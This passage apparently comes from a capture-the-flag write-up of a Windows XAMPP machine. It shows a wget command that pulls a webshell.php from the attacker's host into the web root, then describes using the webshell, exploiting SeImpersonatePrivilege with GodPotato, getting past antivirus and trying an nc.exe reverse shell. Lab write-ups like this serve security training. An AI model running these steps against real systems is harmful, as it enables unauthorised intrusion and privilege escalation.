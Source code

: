 ![Untitled](Stealth/Untitled%204.png)

Now for Privileges Escalation part I need to have more privileges and that privileges I can’t find from this shell so I need to have a proper shell through webshell so I need to upload a webshell.php file to get another shell for the same user `envader` →

```bash
SHELL> wget -usebasicparsing http://10.8.83.156/webshell.php -o webshell.php
SHELL> dir

    Directory: C:\xampp\htdocs

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        12/2/2023   3:20 PM                uploads                                                               
-a----        8/17/2023   5:09 AM           5024 6xK3dSBYKcSV-LCoeQqfX1RYOo3qNa7lqDY.woff2                             
-a----        7/16/2023   4:29 PM         213642 background-image.jpg                                                  
-a----        7/11/2023   5:11 PM           9711 background-image2.jpg                                                 
-a----        8/17/2023   5:11 AM           3554 font.css                                                              
-a----        8/29/2023   9:55 AM           3591 index.php                                                             
-a----        12/2/2023   3:23 PM          20327 webshell.php                                                          

SHELL>
```
{: .nolineno}
{: .nolineno}

Lets have a webshell now →

![Untitled](Stealth/Untitled%205.png)

Now I have more privileges as compared to my SHELL access privileges →

![Untitled](Stealth/Untitled%206.png)

As I got `SeImpersonatePrivilege` enabled so Lets use `GodPotato` Tool here →

![Untitled](Stealth/Untitled%207.png)

I through Antivirus would not let me run this exploit but it does I don’t understand why though but when I tried to have a reverse shell through nc.exe then it does not triggered →

![Untitled](Stealth/Untitled%208.png)
